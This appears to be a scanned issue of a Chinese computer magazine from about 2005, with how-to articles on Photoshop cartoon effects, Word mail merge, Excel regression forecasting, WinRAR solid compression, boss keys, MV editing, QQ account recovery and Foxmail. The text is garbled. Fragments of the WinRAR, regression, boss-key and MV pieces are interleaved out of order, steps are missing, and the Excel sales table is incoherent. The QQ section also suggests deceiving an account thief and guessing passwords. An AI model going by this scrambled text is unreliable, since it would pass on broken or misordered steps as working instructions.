单击工具箱右侧的三角形，可打开扩展工具面板，第一个是打字工具，第二个是魔术棒工具。魔术棒工具对小朋友会有很大的吸引力，每次点击它会产生不同颜色、大小的图案来。在右侧面板中单击三角形按钮还可以选择不同的随机图案。

- 第二步：像搭积木一样画画

本文开头的那幅画，其实是像搭积木一样“搭”出来的。单击右下角的稿纸图标，切换到模型模式（这时右下角会变成铅笔图标，点击它可以返回绘画模式），在这里存放着许许多多的背景、卡通和动画模板，非常适合于没有绘画基础的孩子来调用。直接用鼠标拖动就可以将各种素材组合在一起了。

- 第三步：为线描图填色

为黑白的线描图填色，也是小朋友们提高绘图能力的重要活动之一。在模型模式中，单击绘画库中的第一个图标，右侧会显示多个线描图素材，拖动一个到画板上，然后单击右下角铅笔图标回到绘画模式，使用各种画笔为线描图填色即可，小朋友们可以借此增强自己的色彩表达能力。

- 第四步：保存和打印图画

单击系统按钮（画板下方的上箭头图标），在打开的面板中，单击软盘图标就可以保存所作的图画了，单击打印机图标即可将图画打印出来，对不想要的图画，将它拖到垃圾桶图标上就可以删除了。再次单击系统按钮回到主界面，单击左上角红点图标即可退出程序。

小孩子正处于成长阶段，他们对周围世界的所有事物都非常感兴趣，在他们的脑海中往往有着一些创意独特的想法，利用创新儿童魔力画匠在电脑上让他们发挥自己的创意，这对将来培养他们学电脑，提高绘图能力是非常有帮助的。
（吉林 图们月长圆）

## “卡通”你自己

在前些日子很火的电影《头文字D》中，不知道大家是否留意过它的片头：当人物形象出现在屏幕上并正面显示的时候，画面就会定格，人物转而变成一种卡通漫画效果，如图1所示。下面，我们将通过Photoshop来轻松实现这样的效果，并把制作过程记录成“动作”（大家可从http://www.newhua.com/cfan/200520/ctatn.rar下载本文中用到的动作文件），以后只需一次单击，即可将照片“卡通化”。如果连续拍摄了多张照片，还可以对照片进行批处理，再通过ImageReady轻松整合成卡通漫画形象的小动画。

- 第一步：启动Photoshop CS中文版，打开一张照片。选择菜单栏中的“窗口→动作”命令，打开动作面板。接着单击动作面板下方的“创建新动作”按钮，打开“新动作”对话框。在名称栏中输入动作名称为“人物变漫画”（名称随意），序列为“默认动作”，这样就将这个新动作放置到“默认动作”的动作集中了，接着在“功能键”下拉列表中为这个新动作选择一个快捷键（以后按快捷键即可执行此动作，本项也可以不设置），在“颜色”下拉列表中为新动作选择一种颜色（方便以后查找此动作，可不设置），然后点击“确定”按钮，这时我们就会在动作面板中的“默认动作”下看到刚才新建的“人物变漫画”动作了。

### 小知识

认识Photoshop的动作面板

动作面板中间的部分是用来显示Photoshop动作集的，默认的显示方式是列表模式，并且只有一个动作集——“默认动作”。单击动作面板右上角的小三角按钮，从弹出菜单中选“按钮模式”命令（见图2），动作面板中的项目将以按钮的形式显示。在按钮模式下要播放某一个动作，只要单击相应的动作按钮即可，非常快捷。但是相对于列表模式来讲，按钮模式不便于动作的调整以及编辑，操作起来不是很方便。如果想要重新切换到列表模式，只要再一次单击“按钮模式”命令就可以了。

每个动作集或者动作的最左侧，都有一个复选框方框，这是“切换项目开/关”。将其关闭，也就是点击去掉对钩号时，表示相应的动作集或动作不能执行；如果方框内的对号为红色，则表示相应的动作集中有部分动作（或动作中某个项目）不能执行；如果方框内的对号为黑色时，表示该动作集中的所有动作都可以执行。

紧挨着“切换项目开/关”右侧是“切换对话开/关”。将其关闭，则表示执行这个动作过程中系统不会暂停；如果方框内是红色边框，就表示该动作集中只有部分动作在执行过程中可以暂停；如果方框内是黑色边框，则表示该动作集的所有动作在执行时都会暂停。

每个动作集或动作前，都有一个“展开”按钮（三角形按钮，箭头向右），单击此按钮可展开动作集或某一动作下的所有步骤，此时按钮方向将朝下，再次单击该按钮又会将动作集或动作折叠起来。比如单击“默认动作”集前面的三角形按钮，就可以展开“默认动作”集，其中我们可以看到它包含了许许多多各式各样的动作，单击每个动作前面的三角形按钮，可以继续展开该动作。

动作面板的下方有一排按钮，左起数第一个按钮（方块图标）是停止当前正在执行的动作，第二个按钮（圆形图标）是开始记录后面的操作，第三个按钮（三角形图标）可以执行已经录制好的动作，第四个按钮（文件夹图标）用来创建新的动作集，第五个按钮（文档图标）用来创建新的动作，第六个按钮（垃圾框图标）用来删除不要的动作。

- 第二步：在上一步骤中，创建了新动作并点击“确定”时，Photoshop就自动进入录制状态了（下面的圆形录制按钮变成红色）。如果没有自动进入录制状态，可选中刚才新建的“人物变漫画”动作，然后单击点亮录制按钮。这时就要注意了，下面的每一步操作都将记录在“人物变漫画”动作之中。

- 第三步：切换到图层面板（如果图层面板没有显示，可单击菜单栏中的“窗口→图层”命令将其调出），将图层面板中的背景图层拖放到下方的“创建新的图层”按钮（左起数第六个按钮，文档图标）上，这样就创建了一个“背景 副本”图层。接着在选中“背景 副本”图层的情况下，单击菜单栏中的“滤镜→画笔描边→深色线条”命令，打开深色线条滤镜对话框。调节深色线条滤镜中的“平衡”、“黑色强度”、“白色强度”参数值，并同时观察预览框中人物图像的变化，如图3所示。当预览框中人物变化的效果达到自己满意的程度后，单击“好”按钮确定并返回工作区中。

### 小提示

深色线条滤镜通过用短而密的线条来绘制图像中的深色区域，用长而白的线条来绘制图像中颜色较浅的区域，从而产生一种很强的黑色阴影效果。

- 第四步：下面来调节人物图像的色调，增强卡通氛围。单击菜单栏中的“图像→调整→色相/饱和度”命令，打开色相/饱和度对话框。选中“着色”复选框(必须)，然后通过调整“色相”、“饱和度”、“明度”参数值为人物指定不同的色彩，本例调整为绿色调，你可以根据自己的需要进行调节。

- 第五步：接下来我们来进一步处理照片色彩。再次将背景图层拖放到下方的“创建新的图层”按钮上，这样就创建了一个“背景副本2”图层。然后在图层面板中将“背景副本2”图层拖放到“背景副本”图层的上方，同时将“背景副本2”图层的“填充”设置为38%。然后单击菜单栏中的“图像→调整→阈值”命令，打开阈值对话框，拖动对话框中的滑块创建出不同阈值的单色效果来。效果满意后，单击“好”按钮确定并返回。

### 小提示

阈值是专门进行色调处理的，用来确定图像的最亮和最暗点，使用它就是为了增强人物照片的清晰度和黑白对比效果。

- 第六步：至此，真实人物变卡通漫画的效果就基本上完成了(见图4)，当然，你还可以使用“色相/饱和度”、“曲线”、“色阶”等工具对人物的细节部分进行调整，使效果更好。最后再单击动作面板中的停止按钮，完成本次动作的录制。现在，可以检验一下我们刚刚录制好的动作。打开一个新的要处理的照片，然后在动作面板中找到刚刚录制好的“人物变漫画”动作，选中它并单击动作面板下方的播放按钮，Photoshop就会自动按照我们上面录制好的动作步骤对新图片进行处理了，快速而又方便！
(吉林 图们月长圆)

## 锦上添花！图片、文档也玩邮件合并

话说在第17期《以一当十，邮件合并建奇功》一文中，那人事部的小白完成了老总派下的简历表任务后，老总大为赞赏，同时也派下了一个难度更大的任务：每个员工都提交有一份简要的学习经历文档，以及一张数码照片，老总想把每个职员的学习文档和照片也放进简历表中，以便更全面地了解职员。这可没有难倒我们聪明的小白，他立刻着手改造起原先的表格来。

- 第一步：将每个职员提供的文档及照片，以该职员的名字为文件名分别存放到D盘的“doc”和“photos”文件夹中。

- 第二步：准备好Excel员工信息表，结构如图1表示。本例中将照片放在“D:\photos\”中，学习经历放在“D:\doc\”中。注意：表示文件路径的反斜杠，必须输入两个(见图1)。

- 第三步：启动Word 2003，参考《以一当十，邮件合并建奇功》一文，制作好简历表中不会变动的部分，在简历表的右上角拆分单元格，空出照片的空间，在页面下端插入单元格，用来放置Doc文件的内容(见图2)。

| 姓名 |  | 性别 |  |
| :--- | :--- | :--- | :--- |
| 出生年月 |  | 政治面貌 |  |
| 学习经历 |  |  |  |

- 第四步：点击“打开数据源”按钮，选择第一步中制作的Excel文件，选择有员工信息的那个工作表。将纯文字的内容通过插入域按钮的方法插入到表格中(见图3)。

| 姓名 | 《MERGEFIELD 姓名》 | 性别 | 《MERGEFIELD 性别》 |
| :--- | :--- | :--- | :--- |
| 出生年月 | 《MERGEFIELD 出生年月》 | 政治面貌 | 《MERGEFIELD 政治面貌》 |
| 学习经历 |  |  |  |

- 第五步：点击欲放置照片的单元格，按下Ctrl + F9组合键，将出现一对大括号，在其中输入：“includepicture ""”（不包括外层的中文全角双引号，但需要里层的英文半角双引号）。将光标定位在英文半角双引号中，输入照片所在的文件夹“D:\photos\”（注意一定要两个反斜杠），再次按下Ctrl + F9组合键，又出现一对大括号，再在其中输入：“mergefield 姓名”（中间有空格，“姓名”则是Excel表格中字段名），将光标定位到这个大括号外面，再紧接着输入“.jpg”，完成照片路径的输入。如果要插入文档，只要把includepicture改为includetext即可，其他设置参考图4进行修改。

| 姓名 | 《MERGEFIELD 姓名》 | 性别 | 《MERGEFIELD 性别》 |
| :--- | :--- | :--- | :--- |
| 出生年月 | 《MERGEFIELD 出生年月》 | 政治面貌 | 《MERGEFIELD 政治面貌》 |
| 学习经历 | 《includepicture "D:\photos\《mergefield 姓名》.jpg"》 |  |  |

- 第六步：点击“合并到新文档”按钮，导出到新文档，此时学习经历文字是显示出来了，但图片单元格却什么都没有。不要紧张，按下Ctrl + A键全选文档，再按下F9键，图片就会显示出来了！经过笔者的试验，插入的文档可以是一切文本文档，包括doc、txt、xml、html等。怎么样？利用Word的域功能，邮件合并功能会更强大。
(上海 反加草旦)

## 预言家是怎样炼成的

故事：唐僧师徒四人一起喝酒，席间，唐僧感慨道：“我们几个要真的跟民间传说似的，都是神仙就好了，那样就可以预测市场未来，想怎么赚钱就怎么赚。”八戒笑道：“师傅，虽然咱们并非神人，但要预测市场未来也并非不可能，只要有一定数据做基础，完全可以利用Excel中的回归分析法来预测出市场发展的趋势来。”悟空在边上撇撇嘴，“呆子，看现在竞争对手四起，公司发展举步维艰，你既有这本事，为何一直不用？”八戒无奈道：“说实话，我也是刚刚知道Excel的这一功能，尚在初步学习阶段，有些地方我还不太明白。这样吧，反正今天无事，不如我就给大家聊聊这事，共同探讨一下吧”。

### 理论篇

理论虽然枯燥，不过在进行实战前，我们最好还是来了解一下回归分析这个概念。

回归分析是市场预测方法的一种，它实际上就是一种统计方法。这种方法对具有相关关系的两个变量（或两个以上）之间数量变化的一般关系进行测定，确定一个相应的数学公式，这样就能从一个已知量去推算出另一个未知量，从而达到预测的目的。假设，一本书图书的销量可能与广告费支出有关，广告费越多，买出去的书就越多。这里，图书的销量是因变量（或称着y），广告费是自变量（或称着x）。当我们能够找出图书销量与广告费之间的关系公式时，就可以根据广告费的多少来预测出图书能卖出去多少了。

### 实战：回归分析及预测

对线性数据作回归分析是非常简单的，可作为学习回归分析及预测的初步阶段。线性数据指的是，如果把这些数据绘制到图表中，它们大致上会沿着一条直线排列。

- 第一步：将数据转换为XY散点图

1. 如图1所示，是环球旅游公司三年来的季度销售额记录。

| 年份 | 月份 | 去年同期销售额 |  |  |  |  |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
|  |  | 1月 | 2月 | 3月 | 4月 | 5月 |
|  |  | 506,845 | 561,587 | 559,841 | 565,129 | 564,500 |
| 2003 | 1月 |  |  |  |  | 564,500 |
|  | 2月 |  |  |  |  | 564,500 |
|  | 3月 |  |  |  |  | 564,500 |
| 2004 | 1月 |  |  |  |  | 564,500 |
|  | 2月 |  |  |  |  | 564,500 |
|  | 3月 |  |  |  |  | 564,500 |
|  |  |  |  |  |  | 564,500 |
| 2005 | 1月 |  |  |  |  | 564,500 |
|  | 2月 |  |  |  |  | 564,500 |
|  | 3月 |  |  |  |  | 564,500 |
|  |  |  |  |  |  | 564,500 |

2. 下面要将其中的数据转换为图表的形式。选中C2:D13单元格，即周期与实际销售额中的所有数值。然后执行“插入→图表”菜单命令打开图表向导，在左侧选中“XY散点图”，右侧点选第一种子图表类型。连续点击“下一步”，最后单击“完成”即可将数据以图表的形式插入工作表中。
3. 可以随意调整图表的大小及位置，如图2所示。

## 软件·实用软件
## 让文件更小一点——WinRAR 固实压缩文件深层探秘

先给大家出一道题：现在已经有一个已经压缩过的文件“VB6.0 中文版.rar”及一些未压缩过的文件，放在“VC6.0 汉化版”文件夹下（见图1）。问题来了，到底如何压缩，才能使这两个安装文件的体积之和最小？带着这个问题，我们来做下面有趣的实验。



注：本文的软件环境为 Windows 2000、WinRAR 3.42 正式版，文中一律以“标准”压缩方式进行压缩，字典大小为 4096KB。

## 实验一：普通压缩

实验环境：C:\Nv_5304 下有文件夹 Win98 和 Win2K，存放的分别是 NVIDIA 显卡 53.04 版 For Windows 98 和 Windows 2000 的驱动程序，大小分别为 31.7MB 及 33.1MB。下面就以 3 种方式对这两个文件夹进行压缩。

- 方式1：将 Win98 与 Win2K 分别压缩成单个 RAR 文件。
- 方式2：将方式 1 中得到的两个压缩文件再次压缩成一个 RAR 文件。
- 方式3：将 Win98 与 Win2K 文件夹压缩成一个 RAR 文件。

实验结果分析：从如图 2 所示的结果可以看到，方式 1 压缩得到的两个 RAR 文件体积之和等于方式 2 与方式 3 压缩后得到的单个文件体积；压缩方式 2 也证明了压缩文件不可被相同的压缩方式再次压缩。但是，作为同一个版本的驱动程序，这两个文件夹内一定有一些相同或者相似的文件，假如我们把这样的重复文件只保留一份的话，既不会丢失数据，又可以大大减小压缩文件的体积。方式 3 巨大的文件体积恰恰证明了在“标准”压缩方式下，WinRAR 没有提供这样“聪明”的功能。

## 实验二：使用固实压缩

实验环境同上，实验方式改变为下面的方法。

- 方式4：将两个文件夹以“创建固实压缩文件”方式分别压缩成单个 RAR 文件。
- 方式5：将方式 1 得到的两个文件以“创建固实压缩文件”压缩成一个 RAR 文件。
- 方式6：将两个文件夹以“创建固实压缩文件”方式压缩成一个 RAR 文件。

实验结果分析：就从图 3 中所看到的那样，方式 4 比方式 1 生成的 RAR 文件体积要小一些，但相差不大。方式 5 与方式 2 生成的文件大小几乎相等；方式 6 与方式 3 相比，文件体积有了质的减小。为什么方式 6 能得到如此小的文件体积呢？在查看 WinRAR 的帮助后我发现了两句重要的话，“它(固实压缩方式)把压缩文件中的全部文件都当成一个连续数据流来看待”，“固实压缩可增加压缩性能，特别是在添加大量的小文件的时候”。细心的读者可能会发现，如果你在“压缩选项”中勾选了“创建固实压缩文件”，在压缩开始前的瞬间可能会出现如图 4 所示的窗口，并且在压缩过程中，WinRAR 会把相同文件名的文件放到一起压缩以减小文件体积。一些资料中也提到，WinRAR 的固实压缩方式取消了“每增加一个文件，压缩包增加 512 字节”的规则。

综上，笔者得出结论：对于重复数据的压缩，WinRAR 的普通压缩方式只能在单个文件内进行，而固实压缩方式则会在压缩开始之前统计被压缩的文件数目及名称，将所有文件看成一个“数据流”，按顺序把名称相同或相近的文件放在一起进行“跨文件”式压缩（因为文件名相同或相近的文件中更有可能出现重复数据）。这就是固实压缩方式对大量含有重复数据的小文件有较高压缩率的原因。







## 第二步：通过拟合线分析趋势

- 1. 趋势只有通过线条才能清晰地表现出来，现在就将上面的散点图拟合成趋势线。首先点击图表，然后执行“图表→添加趋势线”命令调出添加趋势线窗口，如图3所示，选中“线性”类型。



- 2. 点击“选项”标签，然后选中其中的“显示公式”和“显示R平方值”两项。确定后，图表将变成图4所示的样子，中间是趋势线，左上角是回归公式及R平方值。

### 小提示

理解回归公式及R平方值
本例中，因变量是季度实际销售额，自变量则是周期（即时间变量，这里以季度来表示），而回归公式表示的正是因变量与自变量之间的关系描述，这对回归分析是非常重要的。线性回归的拟合趋势线实际上就是一条直线，其公式形式为：
y=mx+b

## 第三步：预测未来

上面操作使我们能深入理解一组数据集的总体趋势，看出销售、成本等变化的大方向，并且可以了解因变量与自变量关联的密切程度。接下来，我们再通过这些趋势，对未来进行大胆的预测。

- 1. 点选用来作预测的图表，然后执行“图表→添加趋势线”命令，打开添加趋势线对话框。
- 2. 在“类型”选项卡中，选中“线性”。
- 3. 点击“选项”标签，选中“显示公式”及“显示R平方值”两项，再在“趋势预测”中将“前推”设置为4个单位，表示要将趋势线延伸4个季度（当然，你可以延伸得更长或者缩短延伸，根据具体情况而定）。
- 4. 单击“确定”后，你会发现图表中的趋势线延长到了你希望预测的时间，查看它所对应的数值即可预测出未来季度可能的销量来。

### 一点通：

#### ★用公式替代图表显示

使用图表拟合趋势线，虽然很形象，但不能直接得到精确数值。当基底数据改变时，就得删掉原有的趋势线再重新来生成，也比较麻烦。所以，实际工作中，可以使用Excel公式来进行回归分析操作。TREND()、LINEST()是用来计算最佳拟合值的，CORREL()是一个统计函数，可用来计算R平方值。这些函数的具体用法，大家可参考Excel帮助文件。

#### ★用回归公式预测

在添加趋势线的时候，如果选中了“显示公式”项，则会得到当前趋势线的回归公式(y=mx+b)。用具体的数字替代x的值，可求出相应的y值，反之亦可。

### 擂台赛

★限于篇幅，本文并没有介绍非线性数据的回归分析方法，有兴趣的朋友可参考Excel帮助或专业书刊，尝试建立一些非线性数据回归分析模型，要求有一定实用价值。设优胜奖三名，每人将免费获赠《电脑爱好者》最新增刊一套。参加前几期擂台赛的读者资料，正在整理中，将在下期公布。

(北京 梦寻)



本例得到的线性回归公式为：y=1413.9x+559091。其中，y是因变量，即季度实际销售额，表示指定时间内的趋势线值；x是自变量，本例中表示当前经历的时间，也就是季度；m是趋势线的斜率，它表示趋势线每季度的销售的增量；b则是y轴的截距，表示趋势线的初始值。
R平方的值也叫作决定系数，它表示因变量与自变量相关联的程度，这个结果越接近于1，说明拟合得越好。如果R平方值小于0.7，则说明拟合的效果较差，也就是说这组数据可能不是线性的，需要再试试其他类型的趋势线，最终选择R平方值最接近于1的那个趋势线。

## 小心！老板来了！——软件中的“老板键”

老板来了，只需一键，便可将上班时间聊天、看视频等罪状一蔽了之，这一键被称为“防老板键”。适用范围原不局限于对付老板，对付GF和其他人也完全可以。

### 浏览器中的老板键

#### 1. Maxthon

默认老板键为“Alt + ~”。你可以选择“选项→Maxthon 选项”中的“常规”项，在“使用老板键”右边的文本框中输入要定义的老板键。如要定义为“Shift + Z”，只需同时按下“Shift”键与“Z”键即可(见图1)。



小提示 腾讯TT从2.1版开始添加了老板键功能，默认键也是“ALT + ~”，修改方法:选择“工具→TT选项”，在左边的项目栏中选择“快捷键修改”，然后选择“界面操作”下的“隐藏/显示界面(老板键)”，勾选“自定义快捷键”，再在右侧框中按下要定义的组合键即可。

#### 2. Firefox

要在 Firefox 中使用此功能，需要借助一款名为 MinimizeToTray 的扩展插件，它的下载地址是:http://minimizetotray.mozdev.org/installation.html，大小为31KB，文件格式是XPI。将该文件直接拖拽到Firefox浏览器的窗口或扩展窗口里，完成安装。以后用中键或滚轮点击最小化按钮，或按住“Ctrl”键单击最小化按钮时，就能将Firefox隐藏到系统托盘中了。当然，也可以在MinimizeToTray的选项里选择“总是最小化为系统图标”，这样，当用鼠标点击Firefox的最小化按钮时，Firefox就会隐藏到系统托盘。

小提示 MinimizeToTray依赖于msvcr71.dll，如果系统文件夹里没有此文件，可到 http://www.dll-files.com/dlindex/pop.php?msvcr71 下载一个并放到系统文件夹里。

也是它对单个文件压缩没有效果的原因。到了这里，我想您应该对WinRAR的固实压缩方式有了一个大致的了解。笔者在使用WinRAR的过程中发现了一个有趣的现象:仅仅更改一个文件的文件名，就可能引起压缩率的大变!怎么,不信?那就请您接着看下面有趣的实验。

## 实验三:改文件名提升压缩率



CoralQQ.exe 文件，选择“发送到→桌面快捷方式”，以后双击该快捷方式便能启动 QQ（实际上打开的是 QQ 珊瑚虫版），按程序默认的“Ctrl + ~”，就可以享受到老板键给我们带来的便利了。

小提示 ★新浪 UC:默认键为“Ctrl + Alt + S”，更改的话可单击其控制面板中的“菜单→系统设置”，在弹出的对话框中选择“基本设置”，选择“呼出/隐藏UC图标”下的“自定义”项即可。★网易泡泡(POPO):没提供此功能，但名为“网易泡泡辅助工具”(PopoFairy)的软件可以弥补这个缺陷。下载地址是http://www.skycn.com/soft/22369.html。程序启动时选择“设置”，在出现的对话框中勾选“使用热键隐藏/显示POPO”，在这里将看到程序默认的快捷键是“F4”，当然也可以进行更改。

## 一式通杀——使用老板键何必那么麻烦

上面介绍的浏览器和即时通信工具的老板键虽然实用，但要一一记下来，也不是件容易事，何况，有些软件并没有这样的功能，偷懒的朋友宁愿使用专门的软件来对付，如飘雪老板键和老板键等，完全不必费脑，只需一招，便能享受到横扫千军的快感。

方式10:将01.BMP重命名为03.BMP后，再将两个文件以“创建固实压缩文件”方式进行压缩。实验结果分析:就像实验三一样，最终的结果如图6所示。可以看到，压缩率再次发生了变化，方式10压缩后的体积要小。

实验结果分析:从如图5所示结果上看,仅仅更改了文件名，压缩得到的文件体积竟减小了2.6MB。前面的文章中曾提到WinRAR在创建固实压缩文件时会按照文件名的顺序把文件名相同或相近的文件放在一起进行压缩，也就是说，假如54和56文件夹内均含有文件Driver.dat，那么WinRAR在压缩的时候会先压缩54文件夹中的Driver.dat，再压缩56文件夹中的Driver.dat。作为相邻版本的驱动程序，这两个文件夹中一定存在大量的重复数据。而作为更高版本的驱动程序，5.6版驱动是在5.4版本驱动的基础上做了修改与加强，换言之，5.6版驱动更有可能包括5.4版驱动中的数据，这也是5.6版驱动体积稍大的原因。从本次实验，我们似乎可以得到这样的结论，对于不同版本的文件，我们应当尽量把版本高、体积大的文件存放在ASCII码值较低的文件夹中以使WinRAR先压缩这些文件，从而得到更高的压缩比。这种情况是不是一个特例呢?为了证实这个猜想，笔者继续进行了下面的实验。



通过以上的四个实验，我们可以得到这样的结论:在使用WinRAR压缩文件时，应尽量将可能含有相同数据的文件一起，并以“创建固实压缩文件”方式进行压缩。在压缩不同版本的文件时，应将版本高、体积大的文件重命名为低ASCII值的文件名或放到以低ASCII值命名的文件夹内，以“创建固实压缩文件”方式进行压缩，这样便可以得到更好的压缩率。现在，再看文章开头提出那个的问题，相信，聪明的你一定知道问题的答案。
（河北 贺加仑）

## 菜鸟轻松、快速制作MV

别人制作的MV在令人赏心悦目之余，也会让我们技痒不止，萌生自己动手剪辑一份的冲动。不过，大多数情况下，MV的剪辑一般是使用Premiere之流的专业级软件，而且其主要使用的素材也是AVI等个头庞大的视频文件，对于初涉MV制作的人，无疑使得制作门槛大为提高。就此，我们可以使用一些易用的常见软件进行组合，同时应用网络上流传最为广泛的影音格式RM（或RMVB）文件来共同达成“MV剪辑制作”这一目标。既快捷又便利，而且得到的效果一点也不逊色于专业级哦！

### 软件准备

- 1. **RealMediaEditor**
   RM官方“指导型”压制工具Helix Real Producer Plus中附带的一款小巧的RM文件剪辑工具，可以快捷、简便地剪切RM编码类型的各类文件。下载地址:http://www.newhua.com/cfan/200521/realmediaeditor.rar
- 2. **Easy RealMedia Tools**
   国人编写，专用于Real视频格式压制的工具，在Helix Real Producer Plus软件内核的基础上整合了大量颇有益处的功能，本次就主要使用到该软件的特色功能之一——RM文件合并。下载地址:http://www.newhua.com/cfan/200521/erm_full.zip
- 3. **mkvtoolnix**
   最新流行的媒体文件格式MKV的封装工具，可以将多个相关联的媒体文件有机地组合在一起。下载地址:http://www.newhua.com/cfan/200521/mkvtool.exe



- 第二步：切换到“选项设置”标签，在这里，可以对相关隐藏项目进行设置，如是否在隐藏窗口的同时隐藏系统通知栏、让系统静音等。如果愿意，还可以为恢复窗口设置密码。

> > 小提示
> 第一步中把打开窗口直接加进可隐藏窗口。这种方法适用于一些单窗口程序，对一些多窗口程序，如Winamp，就需要分别加进Winamp播放列表编辑器、Winamp Library和Winamp均衡器窗口等，较麻烦，所以程序在“选项设置”标签下提供了一个“关闭标题为以下字串的窗口”，遇到这样的多窗口，只要找出标题的共同字串（如Winamp），输入文本框即可，以后按下热键时，这些拥有共同字串的窗口会一同被隐藏。

## 给QQ硬盘加把'锁'

普通的QQ用户是不能给QQ硬盘设置密码，但我们却可以通过QQ的密码找回功能来设置一个密码。

- 第一步：打开“http://service.qq.com/psw/mo.shtml?psw_cs.htm”，然后选择页面左侧的“重设密码”，输入自己的QQ号和附加码后，点击“下一步”，在出现的界面中选择“网络硬盘密码”（见图1），然后输入自己的密码保护，按照提示完成操作。
- 第二步：打开自己用来接收密码保护的信箱，可以看到一个QQ的修改链接（见图2），然后在出现的页面中输入自己想要的密码。
- 第三步：这时在QQ中点击“网络硬盘”标签，是不是已经需要输入密码了呢？注意要重新登录一次。不过如果以后想修改密码时必须还要点击上面的链接，而在QQ硬盘中直接修改还会收到要让你成为高级用户的提示，且修改是无效的。





- 第一步：素材剪切。这一步主要是用Real Media Editor（简称RME）对RM文件进行裁切。打开要截取的文件，在播放窗口下方的进度条中先点击要截取影片的起始点，然后点击“起始点”按钮，再从进度条中移至截取结束位置，点击“结束点”，通过“播放选定段”按钮，确认截取的内容无误，点击菜单中的“文件→保存Real媒体文件为”，将文件保存为RM格式。重复此操作，完成所有影片片段的截取。



- 第三步：音频替换与视频画面结合。最后一步，是将音频内容结合进适才制作出的MV画面中。所使用的工具就是MKVtoolnix，它可以制作MKV视频电影。启动MKVtoolnix工具套件中的Mkvmerge，在“Input”（插入）选项卡下，点击“add”按钮，将合成好的RM文件添加到“Input files”（插入文件）列框中。这时在“Tracks”（轨道）中会分别列出“type:audio”（类型:音频）及“type:video”（类型:视频）两项，去除“type:audio”（类型:音频）的勾选，然后再点击“add”按钮，将MV的歌曲添加到列表，这时确认在“Tracks”（轨道）窗格中“type:video”及刚刚添加的歌曲已处于选中状态（见图2），点击主界面中最下侧的“Start muxing”（开始混合）即可。等待些许，MV文件的音频部分就完美地与画面结合完毕了。



> > 你知道吗？
> 通俗地解释，MKV就是一种将多种不同制式的文件格式有机组合在一起并“打包封装”的文件，其可包含各类字幕、音轨、视频，并且这些文件在MKV包内相对独立地存在。鉴于这些软件特性，所以对音频质量要求较高的朋友推荐该软件。
> 至此，我们运用小软件进行组合，剪辑制作MV的计划大功告成。沏杯茶、泡杯咖啡，欣赏着自己制作的MV:听，一片静谧中，惟有轻灵的乐声从你的电脑中飘出，沁人心脾；看，一个人的夜晚，和朋友们一起分享这惬意的时光，沉浸在MV的魔力中，这样的日子，心灵将不再孤独！

## 当QQ被“盗”之后……

QQ已经成了很多朋友必备的“生活用品”了，想想看，这么宝贵的东西，如果被别人盗走，那是多么让人心烦的事？不过万一是有一天你的QQ密码丢失了，那应该怎么办呢？

小提示：很多朋友的QQ号是别人送的，由于种种原因已经不知道了它的密码保护资料了。这样QQ号丢失了，就非常麻烦了。其实，我们完全可以在QQ没有丢失时，用上面的方法重新设置一次密码保护。

- 1. 网上申诉
  第一步：登录http://service.qq.com/psw/moshtml?psw_ss.htm，然后输入QQ号，点击“申诉QQ号码”，进入下一步。
  第二步：现在，要求你输入申诉QQ号码的资料，比如以前使用过的三个历史密码，QQ号码列表等，能写的就尽量填写，总之就是要证明这个QQ号是你的，让腾讯的工作人员也相信这一点。
  第三步：点击“提交”按钮，如果资料够详细，等上大约一个工作日左右，在你填写的安全信箱里面就会收到腾讯发给你的确认信。

- 2. 电话申诉
  如果使用网上申诉已经无法恢复，那么就只有试试打电话测试了，腾讯的客服电话为0755-83765566（上班时间为星期一到星期五的上午9:00-12:30，下午14:00-17:30）。向客服人员说明情况，同样也要提供关于被盗QQ号的一些相关资料。如果运气好，又会和MM套近乎，那么相信你的QQ密码可以很轻松的要回来了。

小提示：绑定手机的好处，腾讯都自动将新密码发送至你的手机上。

- 3. 其他方法找回密码
  除上面的“官方”方法外，还有下面这些比较另类的找回方法。
  ①如果你注册为会员，并将手机与QQ号绑定，腾讯都自动将新密码发送至你的手机上。
  ②另类方法：注册一个异性号码，加上你的被盗的QQ，和对方聊天，把QQ号“骗”回来。
  ③如果实在没有办法，那么可以使用2005年第19期《多种武器助你驯服小企鹅》一文介绍的方法，用替换user.db的方法将好友找回。
  ④部分盗号者会将密码修改为1234567，ASDF等字符，你可以多试几组，说不定就会找回密码。

小编有话说：盗版QQ密码主要是下面这三种方法，一是使用穷举法，对于一些密码简单的用户，只要不停的试用各种字符组合，就可以很快的找回密码；二是木马盗取，这个不必多说了，只要注意不要轻易登录不明网站，不要轻易运行好友传过来的文件即可；三是本地破解，对于经常去网吧的朋友这点尤其要注意，走之前一定要删除自己QQ号码下的文件。
（北京 sky 河南 侯忠）

## Foxmail三大超新招、超实用秘技

Foxmail 5.0算是比较常用的程序，相关技巧应该已经见过不少了吧？在此要介绍给大家的是三招比较少见的另类Foxmail应用技巧。

### 用闪存盘保护账户

Foxmail虽然有加密账户的功能，但很容易被破解。其实可以用闪存盘来保护账户，具体操作如下。

- 1. 设置
  首先要找到邮箱账户所对应的文件夹，把它复制到闪存盘中，账户默认所对应的文件夹是在C:\Program Files\Foxmail\Mail下与账户同名的文件夹。然后打开Foxmail选中这个账户，单击菜单“账户→删除”，确定删除这个账户。再单击菜单“工具→导入→Foxmail账户”，在弹出窗口中单击“下一步”，设置账户路径为闪存盘中的邮箱文件夹路径，“直接使用原来的文件夹，作为导入账户的邮箱文件夹”重新导入账户，保留在原位置。如果有多个邮箱只要重复这一步逐一进行设置即可。

  小提示：如果改过账户名或没有按默认设置，可能会找不到邮箱账户所对应的文件夹。此时可以打开Foxmail，右击该账户下的任一邮箱，选择“属性”，从弹出“邮箱”窗口的“常规”选项卡中就可以看到邮箱路径了。

- 2. 使用
  使用时只要先插入闪存盘再打开Foxmail就可以看到这个账户，如果不插入闪存盘就打开Foxmail则看不到此邮箱。如果想在其他的电脑上使用，只要在第1次使用时，在Foxmail中单击“工具→导入→Foxmail账户”进行导入账户操作，以后就可以直接使用了。

  小提示：使用这一招必须先记得先关闭Foxmail再取出闪存盘，否则可能会因找不到邮箱文件而无法进入Foxmail。万一遇到这种情况时也不要急，只要重新插入闪存盘即可。

### 超级模板

笔者经常给杂志栏目投稿，通常同一栏目的投稿信件收件人、转发、主题等基本都固定不变。若能把这些信息都保存在一个模板中，就不用每次投稿都重复这些麻烦的设置了。这用Foxmail本身的模板显然是无法实现的，在此提供一种能保存这些信息的超极模板，就以向软件栏目的投稿为例。

- 1. 定制
